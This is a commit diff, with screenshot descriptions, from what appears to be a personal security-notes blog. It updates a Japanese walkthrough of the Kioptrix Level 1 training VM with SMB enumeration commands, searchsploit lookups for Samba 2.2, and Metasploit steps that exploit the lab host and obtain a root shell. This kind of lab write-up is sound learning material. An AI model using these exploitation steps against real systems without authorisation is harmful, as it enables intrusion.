

Before and after one commit to softbloomxo/security-notes, a Jekyll site: the page built from _posts/2026-09-12-kioptrix1.md, in a window 1280 px wide and 1400 px high, scrolled down 1602 px. Shown: the whole window, without its empty margins (178-981 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Kioptrix Level 1 writeupのスクリーンショットを追加し、いくつかのコマンドを修正

````diff
--- a/_posts/2026-09-12-kioptrix1.md
+++ b/_posts/2026-09-12-kioptrix1.md
@@ -66,9 +66,9 @@ nmap -p139 -sV --version-all 192.168.56.4
 ```
 スクリーンショットを貼る
 
-enum4linux-ngによるバージョン調査
+enum4linuxによるバージョン調査
 ```bash
-enum4linux-ng -A 192.168.56.4
+enum4linux -a 192.168.56.4 | grep -iE "samba|version|server|os"
 ```
 スクリーンショットを貼る
 
@@ -76,10 +76,10 @@ MetasploitによるSMBバージョン調査
 ```bash
 msfconsole
 msf6 > search smb_version
-msf6 > use auxiliary/scanner/smb/smb_version
+msf6 > use 0
+msf6 auxiliary(scanner/smb/smb_version) > show options
 msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 192.168.56.4
-msf6 auxiliary(scanner/smb/smb_version) > show options
-msf6 auxiliary(scanner/smb/smb_version) > run
+msf6 auxiliary(scanner/smb/smb_version) > exploit
 ```
 スクリーンショットを貼る
 
@@ -93,7 +93,7 @@ smbclient -L 192.168.56.4 -p 139
 ## 4. Vulnerability Identification（脆弱性の特定）
 SMBのバージョンが判明、Samba 2.2系の既知の脆弱性を調査
 ```bash
-searchsploit samba 2.2
+searchsploit samba 2.2 Linux
 searchsploit -x 10
 searchsploit -m 10
 ```
@@ -111,7 +111,17 @@ Metasploit Frameworkを使用してSamba 2.2系のExploitを検索
 ```bash
 msfconsole
 search samba 2.2
+use 2
+set payload 29
+set RHOSTS 192.168.56.4
+set LHOST 192.168.56.3
+exploit
 ```
+侵入後権限の確認
+```bash
+whoami
+root
+```
+スクリーンショットを貼る
 ## 6. Privilege Escalation（権限昇格）
-
 ## 7. Conclusion（まとめ）
````
Also changed, not shown: other parts of _posts/2026-09-12-kioptrix1.md (+1 -1 lines), assets/images/writeups/kioptrix1/0x6a_f.png (added), assets/images/writeups/kioptrix1/0x6b_t.png (added), assets/images/writeups/kioptrix1/apache_target.png (added), assets/images/writeups/kioptrix1/enum4linux.png (added), assets/images/writeups/kioptrix1/msf_smb_version.png (added), assets/images/writeups/kioptrix1/netdiscover.png (added), assets/images/writeups/kioptrix1/nikto.png (added), assets/images/writeups/kioptrix1/nmap.png (added), assets/images/writeups/kioptrix1/nmap_version.png (added), assets/images/writeups/kioptrix1/ptrace_local.png (added), assets/images/writeups/kioptrix1/searchsploit_mod_ssl.png (added), assets/images/writeups/kioptrix1/searchsploit_smb.png (added), assets/images/writeups/kioptrix1/smb_compile_f.png (added), 3 more files, 1 other file.
